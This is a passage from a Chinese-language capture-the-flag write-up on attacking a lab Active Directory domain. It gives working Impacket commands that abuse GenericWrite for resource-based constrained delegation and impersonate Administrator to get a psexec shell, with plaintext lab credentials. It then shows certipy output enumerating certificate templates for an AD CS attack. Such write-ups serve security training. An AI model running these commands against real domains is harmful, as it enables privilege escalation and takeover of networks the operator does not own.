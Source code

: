 可以看到 lixiuying 对 XR-0687 具有 GenericWrite 权限 (盲猜是因为 Creator-SID)

那么直接去走一波配置 RBCD 的流程拿到 flag03

```shell
proxychains addcomputer.py xiaorang.lab/lixiuying:'winniethepooh' -dc-ip 172.22.15.13 -dc-host xiaorang.lab -computer-name 'TEST$' -computer-pass 'P@ssw0rd'

proxychains rbcd.py xiaorang.lab/lixiuying:'winniethepooh' -dc-ip 172.22.15.13 -action write -delegate-to 'XR-0687$' -delegate-from 'TEST$'

proxychains getST.py xiaorang.lab/'TEST$':'P@ssw0rd' -spn cifs/XR-0687.xiaorang.lab -impersonate Administrator -dc-ip 172.22.15.13

proxychains psexec.py administrator@XR-0687.xiaorang.lab -k -no-pass -dc-ip 172.22.15.13
```

![image-20230819155441206](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202308191554245.png)

## flag04

根据题目描述猜测要打 AD CS

用 certipy 先枚举一遍可利用的证书模版

```shell
$ proxychains certipy find -u 'lixiuying@xiaorang.lab' -p 'winniethepooh' -dc-ip 172.22.15.13 -vulnerable -stdout
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Trying to get CA configuration for 'xiaorang-XR-CA-CA' via CSRA
[!] Got error while trying to get CA configuration for 'xiaorang-XR-CA-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'xiaorang-XR-CA-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Got CA configuration for 'xiaorang-XR-CA-CA'
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : xiaorang-XR-CA-CA
    DNS Name                            : XR-CA.xiaorang.lab
    Certificate Subject                 : CN=xiaorang-XR-CA-CA, DC=xiaorang, DC=lab
    Certificate Serial Number           : 3ECFB0112E93BE9041059FA6DBB3C35A
    Certificate Validity Start          : 2023-06-03 07:19:59+00:00
    Certificate Validity End            : 2028-06-03 07:29:58+00:00
    Web Enrollment                      : Enabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : XIAORANG.LAB\Administrators
      Access Rights
        ManageCa                        : XIAORANG.LAB\Administrators
                                          XIAORANG.LAB\Domain Admins
                                          XIAORANG.LAB\Enterprise Admins
        ManageCertificates              : XIAORANG.LAB\Administrators
                                          XIAORANG.LAB\Domain Admins
                                          XIAORANG.LAB\Enterprise Admins
        Enroll                          : XIAORANG.LAB\Authenticated Users
    [!] Vulnerabilities
```